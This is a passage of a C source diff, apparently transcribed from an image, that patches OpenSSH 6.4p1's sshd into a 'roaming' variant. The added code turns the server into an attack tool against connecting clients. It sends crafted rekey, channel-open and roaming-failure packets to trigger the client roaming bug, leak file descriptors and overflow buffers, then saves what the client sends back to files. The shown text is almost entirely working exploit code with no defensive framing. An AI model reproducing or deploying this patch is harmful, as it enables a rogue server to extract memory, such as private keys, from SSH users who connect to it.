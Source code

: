 + debug("%s: sleep %u", __func__, seconds_left_to_sleep); + + if (client_session_channel == -1) + fatal("%s: client_session_channel %d", + __func__, client_session_channel); + + packet_start(SSH2_MSG_CHANNEL_OPEN_CONFIRMATION); + packet_put_int(client_session_channel); + packet_put_int(server_session_channel); + packet_put_int(0); /* server window */ + packet_put_int(0); /* server maxpacket */ + packet_send(); + + packet_start(SSH2_MSG_CHANNEL_DATA); + packet_put_int(client_session_channel); + packet_put_string("\0\n", 2); /* response&source|sink&run_err */ + packet_send(); + + packet_read_expect(SSH2_MSG_CHANNEL_REQUEST); + packet_get_int(); /* server channel */ + debug("%s: channel request %s", __func__, + packet_get_cstring(NULL)); + + while (seconds_left_to_sleep) + seconds_left_to_sleep = sleep(seconds_left_to_sleep); + } + + packet_start(SSH2_MSG_REQUEST_SUCCESS); + packet_put_int(id); /* roaming_id */ + packet_put_int64(arc4random()); /* cookie */ + packet_put_int64(0); /* key1 */ + packet_put_int64(0); /* key2 */ + packet_put_int(client_out_buf_size - client_send_buf_size); + packet_send(); + packet_write_wait(); + + if (overflow != 0) { + const u_int64_t full_client_out_buf = get_recv_bytes() + + client_out_buf_size; + + u_int fd_leaks = 4 * 8 * 8; /* MIN_CHUNK_SIZE in bits */ + if ((cp = strstr(roaming, "fd_leaks:")) != NULL) + fd_leaks = strtoul(cp + 9, NULL, 0); + debug("%s: fd_leaks %u", __func__, fd_leaks); + + while (fd_leaks--) { + packet_start(SSH2_MSG_CHANNEL_OPEN); + packet_put_cstring(overflow == 'X' ? "x11" : + "auth-agent@openssh.com"); /* ctype */ + packet_put_int(arc4random()); /* server channel */ + packet_put_int(arc4random()); /* server window */ + packet_put_int(arc4random()); /* server maxpacket */ + if (overflow == 'X') { + packet_put_cstring(""); /* originator */ + packet_put_int(arc4random()); /* port */ + } + packet_send(); + + packet_read_expect(SSH2_MSG_CHANNEL_OPEN_CONFIRMATION); + packet_get_int(); /* server channel */ + packet_get_int(); /* client channel */ + packet_get_int(); /* client window */ + packet_get_int(); /* client maxpacket */ + packet_check_eom(); + } + + while (get_recv_bytes() <= full_client_out_buf) { + packet_start(SSH2_MSG_GLOBAL_REQUEST); + packet_put_cstring(""); /* rtype */ + packet_put_char(1); /* want_reply */ + packet_send(); + + packet_read_expect(SSH2_MSG_REQUEST_FAILURE); + packet_check_eom(); + } + + if (kex == NULL) + fatal("%s: no kex, cannot rekey", __func__); + if (kex->flags & KEX_INIT_SENT) + fatal("%s: KEX_INIT_SENT already", __func__); + char *const ptr = buffer_ptr(&kex->my); + const u_int len = buffer_len(&kex->my); + if (len <= 1+4) /* first_kex_follows + reserved */ + fatal("%s: kex len %u", __func__, len); + ptr[len - (1+4)] = 1; /* first_kex_follows */ + kex_send_kexinit(kex); + + u_int i; + packet_read_expect(SSH2_MSG_KEXINIT); + for (i = 0; i < KEX_COOKIE_LEN; i++) + packet_get_char(); + for (i = 0; i < PROPOSAL_MAX; i++) + free(packet_get_string(NULL)); + packet_get_char(); /* first_kex_follows */ + packet_get_int(); /* reserved */ + packet_check_eom(); + + char buf[8192*2]; /* two packet_read_seqnr bufferfuls */ + memset(buf, '\0', sizeof(buf)); + packet_start(SSH2_MSG_KEX_ROAMING_AUTH_FAIL); + packet_put_string(buf, sizeof(buf)); + packet_send(); + const Buffer *const output = packet_get_output(); + dump_roaming_file("output", buffer_ptr(output), + buffer_len(output)); + } + + const u_int64_t client_write_bytes = get_recv_bytes(); + debug("%s: client_write_bytes %llu", __func__, + (unsigned long long)client_write_bytes); + dump_roaming_file("client_write_bytes", &client_write_bytes, + sizeof(client_write_bytes)); + fatal("%s: all done for %s", __func__, dir); +} + +static void server_input_global_request(int type, u_int32_t seq, void *ctxt) { char *rtype; @@ -1168,6 +1371,13 @@ server_input_global_request(int type, u_ } else if (strcmp(rtype, "no-more-sessions@openssh.com") == 0) { no_more_sessions = 1; success = 1; + } else if (strcmp(rtype, ROAMING_REQUEST) == 0) { + if (want_reply != 1) + fatal("%s: rtype %s want_reply %d", __func__, + rtype, want_reply); + roaming_disconnect(ctxt); + /* NOTREACHED */ + fatal("%s: returned from %s", __func__, ROAMING_REQUEST); } if (want_reply) { packet_start(success ? diff -pruN openssh-6.4p1/sshd.c openssh-6.4p1+roaming/sshd.c --- openssh-6.4p1/sshd.c 2013-07-19 20:21:53.000000000 -0700 +++ openssh-6.4p1+roaming/sshd.c 2016-01-07 01:04:15.000000000 -0800 @@ -2432,6 +2432,8 @@ do_ssh2_kex(void) } if (options.kex_algorithms != NULL) myproposal[PROPOSAL_KEX_ALGS] = options.kex_algorithms; + else + myproposal[PROPOSAL_KEX_ALGS] = KEX_DEFAULT_KEX "," KEX_RESUME; if (options.rekey_limit || options.rekey_interval) packet_set_rekey_limits((u_int32_t)options.rekey_limit,

</body></div>